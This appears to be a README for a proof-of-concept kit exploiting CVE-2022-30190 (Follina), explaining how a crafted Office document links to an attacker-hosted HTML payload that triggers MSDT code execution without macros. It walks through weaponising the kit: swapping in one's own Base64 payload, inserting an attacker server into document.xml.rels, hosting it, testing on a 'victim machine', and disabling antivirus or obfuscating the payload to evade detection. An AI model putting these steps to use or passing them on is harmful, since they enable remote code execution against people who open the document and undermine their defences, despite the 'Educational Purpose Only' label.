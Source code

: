 # POC-msdt-follina

OK, as you know, or don't know, CVE-2022-30190 vulnerability can be described as like an attacker makes some MS Office, puts inside it's structure some link ( html ), and with the help of that, he manage run a malicious code. OLE object (word/_rels/document.xml.rels)
<br>
Data phat puts inside, may describe link in the tags with attributes "TYPE=" and "Target=". Link at the target attribute takes to the HTML, which in our case is our PAYLOAD, so that triggers the MSDT protocol. For example -- > "Target="http://Server-Host-Payload:Port/Payload.html".

Now, when opened, the attacker document start to run, and trigger the MSDT.
The document can run even in ProtectedMode, and more - You dont even need macros enabled.

You can Modifiy the Payload at www, and insert what ever you want, just to check it on your victim machine.
For example --- > After edit the file with Gedit, at [char]34+'[Some/Base64/Syntax/', you can replace it with another Payload of yours.


This Document is already put together, just for the POC, so all you have to change is the Payload script, which in our case is the 'index.html' site, which holds inside of it a '<script>' tags that stored our Payload, and secondly, at /doc/word/_rels directory, there is a file named 'document.xml.rels. Edit it, and replace the '{YourServerHere}' with yours.

  
 After made all of that, just rezip the doc file, you can use 7-zip of whatever you like, open a python server, and good luck. Was Tested on  Microsoft Office Document 2007 with no problems, tell me if you managed to get it work on new versions.
  
  For now, dont forget to de-active the real time protection/firewall, else you can obfuscate your PAYLOAD, but for this is all for now.
  # Educational Purpose Only!
  ![POC-test](https://user-images.githubusercontent.com/90532971/172916363-51b0b457-fb9a-44a2-994d-0f396c07e547.gif)

  # Usage
  Made a little py script which can help for these who have a little trouble.
  1. Put your local machine ip, with 'http' where the payload is, for example: http://Server:Port/Pay.html
  2. choose a command to be executed, for example: "notepad" or using ps scripts.
*Notice: When running the py script, you cannot run it again on the same 'www' directory and 'doc'.
  if you want to use it again, copy the  inside 'BackUp' directory again, and run the py again.
  
# Update
  Fixed the rels problem, now it should work.
  change the folder named "rels" to "_rels" if you have troubles.
